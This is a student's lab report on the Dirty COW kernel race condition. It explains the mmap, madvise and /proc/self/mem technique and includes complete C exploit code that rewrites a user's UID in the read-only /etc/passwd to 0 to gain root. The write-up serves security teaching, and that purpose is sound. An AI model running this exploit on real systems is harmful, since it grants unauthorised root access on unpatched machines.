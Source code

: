 # Lab 10

SID 12110644

Name Sicheng Zhou

## Task 1 Modify a dummy read-only file

![result](image.png)

Explain:

1. Map the target file using mmap() with the MAP_PRIVATE flag to create a private, copy-on-write mapping of the file. 
2. The `madviseThread` tells the kernel that the memory is no longer needed and should be discarded. This action causes the kernel to invalidate the memory-mapped page, marking it as needing to be reloaded from the original file.
3. The `writeThread` writes to the position of the target substring using /proc/self/mem. The loop repeatedly seeks to the target position and writes data, racing with the kernel’s handling of the memory mapping.



## Task 2 Modify the passwd file to gain the root privilege

Here is the modified `cow_attack.c` code to change the passwd file.
Only need to modify: 

1. The name of the target file = `/etc/passwd`.
2. The target position = `charlie:x:1001`.
3. The target content = `charlie:x:0000`.

```c
// modified cow_attack.c
#include <sys/mman.h>
#include <fcntl.h>
#include <pthread.h>
#include <sys/stat.h>
#include <string.h>

void *map;
void *writeThread(void *arg);
void *madviseThread(void *arg);

int main(int argc, char *argv[])
{
  pthread_t pth1,pth2;
  struct stat st;
  int file_size;

  // Open the target file in the read-only mode.
  int f=open("/etc/passwd", O_RDONLY);

  // Map the file to COW memory using MAP_PRIVATE.
  fstat(f, &st);
  file_size = st.st_size;
  map=mmap(NULL, file_size, PROT_READ, MAP_PRIVATE, f, 0);

  // Find the position of the target area
  char *position = strstr(map, "charlie:x:1001");                        

  // We have to do the attack using two threads.
  pthread_create(&pth1, NULL, madviseThread, (void  *)file_size); 
  pthread_create(&pth2, NULL, writeThread, position);             

  // Wait for the threads to finish.
  pthread_join(pth1, NULL);
  pthread_join(pth2, NULL);
  return 0;
}

void *writeThread(void *arg)
{
  char *content= "charlie:x:0000";
  off_t offset = (off_t) arg;

  int f=open("/proc/self/mem", O_RDWR);
  while(1) {
    // Move the file pointer to the corresponding position.
    lseek(f, offset, SEEK_SET);
    // Write to the memory.
    write(f, content, strlen(content));
  }
}

void *madviseThread(void *arg)
{
  int file_size = (int) arg;
  while(1){
      madvise(map, file_size, MADV_DONTNEED);
  }
}

```



![result](image-1.png)
